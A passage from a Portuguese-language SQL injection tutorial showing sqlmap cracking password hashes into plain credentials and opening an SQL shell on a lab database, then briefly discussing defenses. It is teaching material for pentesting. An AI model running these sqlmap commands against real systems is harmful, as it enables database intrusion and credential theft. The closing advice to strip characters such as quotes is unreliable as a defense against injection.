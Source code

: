> Observe na saída anterior que houveram questionamentos do SQLmap para a pessoa que executou o mesmo. Esses questionamentos foram para realização de descobertas de senhas.

Analisando a saída anterior, dá para ver o poder e a praticidade do SQLmap, pois esse além de conseguir apresentar os dados das colunas ``name`` e ``password``, pois ele deu a opção de tentativa de quebra de senha ao identificar que a coluna ``password`` armazenava *hashes* de senhas. Assim, o SQLmap iniciou a quebra dessas senhas e conseguiu identificar os seguintes usuários/senhas:
* ``jose``/``123456``;
* ``antonio``/``iloveyou``;
* ``maria``/``master``;
* ``ana``/``felicidade``;
* ``luiz``/``123mudar``.

Feito isso agora basta o atacante/Pentester utilizar essas credenciais para ver se essas dão acesso ao sistema da vítima.

#### SQLmap - Abrindo shell do SDBD

Além das opções apresentadas anteriormente, o SQLmap apresenta muitas outras, como por exemplo abrir um *shell* para o atacante executar SQLs arbitrários na vítima. Isso é feito com a opção **``--sql-shell``**, veja o resultado a seguir:

```console
# sqlmap -u "http://192.168.56.108/index.php" --data="search=Elvis" -D employees -T users --sql-shell
...
[09:56:40] [INFO] calling MySQL shell. To quit type 'x' or 'q' and press ENTER
sql-shell>

sql-shell> select user, host from mysql.user;
[09:59:31] [INFO] fetching SQL SELECT statement query output: 'select user, host from mysql.user'
[09:59:31] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
select user, host from mysql.user [2]:
[*] admin, localhost
[*] root, localhost

sql-shell>
```
Com o *shell* o atacante/Pentester tem uma liberdade maior para testes. No exemplo da saída anterior, foi realizado um SELECT buscando os usuários/*hosts* permitidos no servidor de banco de dados (``select user, host from mysql.user;``).

Existem muitas outras opções no SQLmap, não é intensão deste material cobrir todas as possibilidades Assim, para mais informações acesse: <https://sqlmap.org/>.

## Conclusão

O SQL Injection é um ataque antigo, mas que ainda é muito devastador, pois quando há sucesso neste tipo de ataque, dados são expostos e esses podem até mesmo dar acesso completo ao sistema, ou expor informações sensíveis das empresas ou clientes.

Há algumas abordagens para se proteger de SQL Injection, mas basicamente essas consistem em analisar a expressão SQL antes de executá-la no servidor. Por exemplo, isso pode ser feito analisando e removendo caracteres normalmente utilizados em ataques SQLi, tais como: ``'``, ``"``, ``#``, etc. Também é recomendável restringir o nível de acesso do usuário de realiza os SQLs.
